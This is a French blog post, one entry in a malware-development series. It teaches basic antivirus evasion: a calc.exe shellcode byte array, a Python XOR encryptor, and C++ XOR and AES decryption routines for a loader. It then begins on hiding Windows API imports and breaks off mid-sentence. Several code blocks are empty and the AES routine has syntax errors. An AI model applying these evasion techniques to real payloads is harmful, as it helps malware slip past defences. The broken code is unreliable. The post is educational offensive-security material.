 # Les bases de l'obfuscation

Nous avons créé ensemble dans le précédent post un exécutable utilisant l'API Windows pour exécuter un shellcode, super.

Le petit souci, c'est que les fonctions importées apparaitront directement dans la table des imports (pour plus d'informations, se référer à la troisième entrée de ma série d'article sur le format de fichier PE). Et les produits antiviraux ne sont pas bêtes ; pour ce qui touche à l'analyse statique, un exécutable qui importe le quatuor de fonctions utilisées dans le précédent post et qui inclut son payload "tel quel" va faire s'illuminer n'importe quelle console de SOC comme un sapin de noël. Dans ce post, nous allons donc visualiser les concepts basiques qu'un acteur malicieux pourrait utiliser afin d'obfusquer les signes les plus évidents de la dangerosité de son programme.

>Avertissement ; j'écris "concepts basiques" volontairement. Le but étant de montrer ici qu'il est possible d'obfusquer une fonction pour éviter qu'elle apparaisse lors d'une analyse statique, et de chiffrer un potentiel payload. En réalité, ça n'est pas avec un coup de moulinette XOR/AES et un simple appel au duo GetProcAddress/GetModuleHandle que vous allez contourner Windows Defender en l'an 2022. Mais en tant qu'introduction ? Ca fera l'affaire. Plus tard, j'aborderai peut-être des concepts plus avancés et surtout modernes, comme l'API Hashing utilisé par des acteurs malicieux de type APT, par exemple.

## Inclure un payload chiffré

Afin d'éviter qu'une solution anti-virale détecte statiquement notre payload non obfusqué, nous pouvons au préalable le chiffrer, l'inclure dans notre programme, puis le déchiffrer lors de l'exécution de notre programme. J'utiliserai deux algorithmes basiques, XOR et AES, à des fins de démonstration.

Pour commencer, remplacons les simples nullbytes de notre payload avec un magnifique shellcode faisant pop calc.exe, à des fins de démonstrations.

```assembly
0xeb, 0x44, 0x5b, 0x33, 0xd2, 0x88, 0x53, 0x0b,
0x53, 0xb8, 0x80, 0x22, 0xbf, 0x74, 0xff, 0xd0,
0xeb, 0x45, 0x5b, 0x33, 0xd2, 0x88, 0x53, 0x0d,
0x53, 0x50, 0xb8, 0xa0, 0x05, 0xbf, 0x74, 0xff,
0xd0, 0xeb, 0x47, 0x5b, 0x33, 0xd2, 0x88, 0x53,
0x08, 0xeb, 0x4d, 0x59, 0x33, 0xd2, 0x88, 0x51,
0x04, 0x33, 0xd2, 0x6a, 0x05, 0x52, 0x52, 0x53,
0x51, 0x52, 0xff, 0xd0, 0x33, 0xd2, 0x52, 0xb8,
0x20, 0x4f, 0xbf, 0x74, 0xff, 0xd0, 0xe8, 0xb7,
0xff, 0xff, 0xff, 0x53, 0x68, 0x65, 0x6c, 0x6c,
0x33, 0x32, 0x2e, 0x64, 0x6c, 0x6c, 0x58, 0xe8,
0xb6, 0xff, 0xff, 0xff, 0x53, 0x68, 0x65, 0x6c,
0x6c, 0x45, 0x78, 0x65, 0x63, 0x75, 0x74, 0x65,
0x41, 0x58, 0xe8, 0xb4, 0xff, 0xff, 0xff, 0x63,
0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x58,
0xe8, 0xae, 0xff, 0xff, 0xff, 0x6f, 0x70, 0x65,
0x6e, 0x58
```

Long et et illisible par tout être humain normalement constitué (mes félicitations si vous arrivez à déchiffrer des opcodes x64 de visu, passez me voir à la prochaine édition de LeHack pour une bière gratuite), mais parfaitement fonctionnel. 

### XOR

La première étape consiste pour commencer à chiffrer ledit shellcode. Commencons par le XOR-er en dehors de ce programme, en utilisant ce petit programme en python (écrit par "Renzo", l'instructeur du cours Sektor7 mentionné dans l'introduction de cette série d'articles), qui se charge de chiffrer notre payload en utilisant la chaîne de caractères "korielzeth" :

```python
import sys

KEY = "korielzeth"

def xor(data, key):
	l = len(key)
	output_str = ""

	for i in range(len(data)):
		current = data[i]
		current_key = key[i%len(key)]
		output_str += chr(ord(current) ^ ord(current_key))
	
	return output_str

def printC(ciphertext):
	print('{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };')

try:
    plaintext = open(sys.argv[1], "r").read()
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

ciphertext = xor(plaintext, KEY)

printC(ciphertext)
```

Une fois notre shellcode original passé à la moulinette de ce programme, celui-ci ressemblera à :

```assembly

```

La fonction visant à déchiffrer le payload une fois l'exécution commencée, plutôt simple, ressemblera à ça :


```cpp
void xordecrypt(LPWSTR payload, size_t payloadlen, LPWSTR clé, size_t clélen) {

	int j = 0;

	for (int i = 0; i < payloadlen; i++) {
		if (j == clélen - 1) j = 0;
		payload[i] = payload[i] ^ clé[j];
		j++;
	}

}
```

Où payloadlen et clélen correspondent à la longueur (via l'utilisation de sizeof() ) de notre payload et de notre clé.

### AES

Même logique que précédemment. On prend notre payload original, le chiffrons (ici avec l'algorithme AES) avant de créer une fonction se chargeant de le déchiffrer lors de l'exécution du programme.

Voilà à quoi ressemble le programme se chargeant du chiffrement :

```python
```



La fonction visant à déchiffrer le payload une fois l'exécution commencée, quand à elle, ressemble à ça. 

>Si vous êtes curieux concernant l'utilisation des fonctions cryptographiques de l'API Windows, vous pouvez aller jeter un oeil au deuxième post concernant mon journal de dévelopement d'une PoC de ransomware

```cpp
int AESdecrypt(char* payload, int payloadlen, char* key, size_t keylen) {
	
	HCRYPTPROV hProv;
	HCRYPTKEY hKey;
	HCRYPTHASH hHash;

	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFY_CONTEXT) {

		return -1;

	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {


		return -1;

	}

	if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) {

		return -1;
	}

	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {

		return -1;
	}

	if (!CryptDecrypt(hKey,0,0,0,payload,&payload_len)) {


		return -1;
	}

	CryptReleaseContext(hProv, 0);
	CryptDestroyHash(hHash);
	CryptDestroyKey(hKey);

	return 0;
}

}
```

Les noms des fonctions sont somme toutes explicites : une handle est crée vers un contexte cryptographique, puis un hash SHA256 est généré et une Clé (objet Windows) est dérivée en se basant sur ledit hash et la clé (une chaîne de caractère aléatoire générée lors de l'encryption de ce programme). Le payload est ensuite déchiffré en utilisant cette Clé, puis les différentes handles vers les objects créés par la fonction (contexte, hash,et Clé) sont ensuite supprimés.

## L'obfuscation de nos appels de fonction

Comme mentionné dans l'introduction de cet article, le premier indicateur de dangerosité d'un exécutable, analysé en premier par les divers solutions anti-virales, qu'elles soient inclues dans les systèmes d'exploitation, est la table des imports dudit exécutable.

Prenons comme exemple l'exécutable généré dans la section précédente, et analysons sa table d'imports avec l'utilitaire PEBear :



 Il existe un moyen somme toute basique